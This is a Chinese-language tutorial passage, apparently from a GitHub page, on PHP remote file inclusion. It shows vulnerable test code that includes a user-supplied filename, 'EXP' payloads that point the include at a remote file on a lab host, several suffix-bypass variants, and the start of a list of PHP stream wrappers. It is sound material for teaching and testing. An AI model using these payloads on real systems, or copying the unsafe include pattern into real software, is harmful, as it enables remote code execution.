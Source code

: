 PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

```
allow_url_fopen = On（是否允许打开远程文件）

allow_url_include = On（是否允许include/require远程文件）
```

#### 无限制远程文件包含漏洞

测试代码：

```
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

EXP:

	filename=http://192.168.91.133/FI/php.txt


#### 有限制远程文件包含漏洞绕过

测试代码：

	<?php include($_GET['filename'] . ".html"); ?>


代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。

#### 问号绕过

	?filename=http://192.168.91.133/FI/php.txt?


#### #号绕过

	?filename=http://192.168.91.133/FI/php.txt%23

#### 其他绕过

	?filename=http://192.168.91.133/FI/php.txt%20

	?filename=http://192.168.91.133/FI/php.txt%3f

## PHP伪协议

PHP 带有很多内置 URL 风格的封装协议，可用于类似 fopen()、 copy()、 file_exists() 和 filesize() 的文件系统函数。 除了这些封装协议，还能通过 stream_wrapper_register() 来注册自定义的封装协议。

#### php:// 输入输出流

PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

    file:// — 访问本地文件系统
    http:// — 访问 HTTP(s) 网址
    ftp:// — 访问 FTP(s) URLs
    php:// — 访问各个输入/输出流（I/O streams）
    zlib:// — 压缩流
    data:// — 数据（RFC 2397）
    glob:// — 查找匹配的文件路径模式
    phar:// — PHP 归档
    ssh2:// — Secure Shell 2
    rar:// — RAR
    ogg:// — 音频流
    expect:// — 处理交互式的流
